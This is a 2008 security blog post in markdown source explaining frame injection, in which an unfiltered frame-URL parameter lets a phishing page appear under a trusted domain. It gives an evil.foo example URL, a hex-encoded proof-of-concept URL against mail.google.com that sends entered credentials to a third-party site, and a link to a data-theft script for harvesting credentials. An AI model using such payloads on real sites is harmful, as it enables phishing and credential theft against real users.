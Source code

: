 ```yaml
---
title: Frame Injection Fun
author: adrian-pastor
date: Fri, 10 Oct 2008 00:01:28 GMT
template: post.jade
category: fucked
---
```


Frame injection vulnerabilities, although some people might consider them the same as HTML injection/XSS or even a subset, they really are not the same. Here is why:

* There is no need to inject special control characters such as angle brackets (unlike HTMLi/XSS)
* HTMLi/XSS filtering routines will not project against frame injection since the attacker only needs to insert a URL in the non-sanitized parameter

The best way to explain what I mean is to show an example. Most frame injection issues occur in web applications because dynamic [frameset/iframe](http://www.w3.org/TR/html4/present/frames.html) insertion is not implemented with enough filtering. For instance, say that we have the following URL on the target site:

    https://www.victim.foo/index.php?**targeturl**=/contact.php

    A malicious user with intentions of launching a phishing attack will try tampering the `targeturl` parameter. His goal is to insert a third-party page that is under his control, rather than the original contact page. Indeed, `index.php`, although is not allowing HTML or JavaScript to be assigned to `targeturl`, is happy to process an absolute URL rather than a relative one:

    https://www.victim.foo/index.php?**targeturl**=http://evil.foo/login.php

    I thought that showing a live example would help our readers get an idea of what frame injection looks in action. For that purpose, I prepared a rather not elegant proof of concept which takes advantage of the Google Images service. What's neat is that although the legitimate URL would normally use the `images.google.com` domain, Google also allow us to use other google.com subdomains such as `mail.google.com` which is used by Gmail. This is ideal, as we're trying to accomplish a frame injection attack which can be used to perform phishing attacks against Gmail users.

    http://mail.google.com/imgres?imgurl=http://SecureGoogleMail&**imgrefurl**=http://mail.google.com/imgres?imgurl=http://SecureGoogleMail&imgrefurl=%68%74%74%70%3a%2f%2f%73%6e%69%70%75%72%6c%2e%63%6f%6d%2f%67%6e%77%62%6f

<div class="screen">![Frame Injection Fun POC](http://www.gnucitizen.org/static/blog/2008/10/frame-injection-fun-poc-300x210.png "Frame Injection Fun POC")</div>

The previous PoC URL will cause the entered credentials to be submitted to www.gnucitizen.org when clicking on Sign in, so please do NOT submit any real credentials!

> pIn short:p The attacker has managed to display a non-legitimate third-party page, while the legitimate domain (mail.google.com in this case) is shown in the address bar.The beauty of frame injection attacks is that the attacker is able to impersonate a trusted entity without needing to bypass XSS/HTMLi filters or even break into the target server.

_Needless to say, in real-life the attacker would most likely automate the process of obtaining the harvested credentials by using a tool such as our [x.php](http://lab.gnucitizen.org/projects/x-php-data-theft-script) data-theft script._
